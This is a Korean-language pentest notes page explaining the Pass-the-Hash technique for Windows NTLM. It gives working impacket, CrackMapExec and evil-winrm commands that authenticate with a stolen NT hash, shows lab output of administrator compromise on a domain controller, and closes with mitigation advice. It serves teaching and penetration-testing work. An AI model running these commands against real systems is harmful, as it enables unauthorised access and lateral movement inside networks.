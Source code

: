 # Pass-the-Hash

패스 더 해시 (Pass-the-Hash, PtH, PTH) 기법은 윈도우 NTLM 인증을 사용할 때 평문 비밀번호를 사용하지 않고, 그 비밀번호의 NT 해시를 사용해 인증하는 기법을 일컫는다. 패스 더 해시는 평범하게 NTLM 인증을 활용하는 기법 중 하나다. 만들어놓은 프로토콜을 의도한대로 평범하게 사용하는 것이다. [NTLM 인증의 개념은 따로 정리](../general-concepts/windows-authentication/ntlm.md)해놨으니 이 페이지에서는 다이어그램만 가져와서 사용하고, 자세한 설명은 생략한다.&#x20;

![](<../.gitbook/assets/ntlm-local-auth.drawio(1) (1).png>)

NTLM 인증이 이뤄지는 동안 유저의 평문 비밀번호는 사용되지 않는다. Challenge/Response 에서는 오로지 유저의 NT 해시화된 비밀번호로 암호화된 Challenge 만 서버와 클라이언트가 주고 받을 뿐이다.

공격자의 입장에서도 마찬가지다. LSASS 덤프 (TODO: 페이지 생성 + 링크)를 진행하다 보면 유저의 NT 해시를 얻을 때가 많다. 경우에 따라서 크래킹이 가능한 경우도 있지만, 비밀번호가 복잡하고 길때는 불가능할때도 많다. 하지만 NTLM 인증 프로토콜은 평문 비밀번호가 필요 없는 프로토콜이다. 더 정확하게는 평문 비밀번호를 굳이 알아낼 필요가 없다. NT 해시만 있으면 된다.&#x20;

패스 더 해시는 원격 코드 실행 및 횡적이동에서 많이 사용된다.&#x20;

* SMB + PsExec&#x20;
* WMI&#x20;
* WinRM&#x20;
* RDP - 단, Restricted Admin (`HKLM\System\CurrentControlSet\Control\LSA, DisableRestrictedAdmin` 이 0이여야함)&#x20;

등의 횡적 이동을 할 때 모두 평문 비밀번호 대신 패스 더 해시를 이용할 수 있다.&#x20;

### 실습&#x20;

많은 윈도우 + 리눅스 기반의 액티브 디렉토리 툴들은 기본적으로 패스 더 해시를 지원한다.예를 들어 impacket, CrackMapExec, Rubeus, Mimikatz 등이 있지만, 거의 왠만한 툴들은 다 지원한다고 보면 된다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket 툴들의 경우 `-hashes` 플래그를 사용하며, LM:NT 형식의 해시가 필요하다. CME의 경우 그냥 NT 해시만 줘도 된다.&#x20;



```
# Impacket 툴들의 "-hashes" 플래그 사용 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'

impacket-wmiexec choi.local/Administrator@dc01.choi.local whoami -hashes 'aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe' 
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
choi\administrator

# CME 의 -H 플래그 사용 
cme smb <FQDN/IP> -u <user> -H <NThash> -d <domain> 

cme smb 192.168.40.150 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe -d choi.local                                  
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

cme smb 192.168.40.150 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -d choi.local 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

# WinRM을 이용한 패스 더 해시 
evil-winrm -i <ip> -u <user> -H <NThash> 
```
{% endtab %}

{% tab title="윈도우" %}
TODO&#x20;
{% endtab %}
{% endtabs %}

### 특이 사항&#x20;

패스 더 해시 기법의 가장 큰 오해는 바로 이것이 공격(attack)이라는 것이다. 패스 더 해시는 공격도 아니고, 특정 프로토콜을 악용(abuse)하는 것도 아니다. NTLM 인증 프로토콜의 취약점(vulnerability)는 더더욱 아니다. 따라서 내부망 모의해킹을 진행할 때도 이 PTH 를 취약점으로 적어놓는 실수를 하면 안된다.&#x20;

### 대응 방안&#x20;

앞서 서술했듯 패스 더 해시는 NTLM을 정상적으로 이용하는 한 방법이기 때문에 막을 방법이 없다. 그나마 AD에서 커버로스나 ADCS를 강제로 이용하게 하는 방법이 있지만, 이는 하위 호환성에 영향을 줄 가능성이 있어 실행하기 어렵다. 패스 더 해시를 막으려는 노력보단 애당초 공격자들이 NT 해시나 다른 계정 정보를 얻을 수 없게끔 보안을 강화하는 것이 추천된다.&#x20;

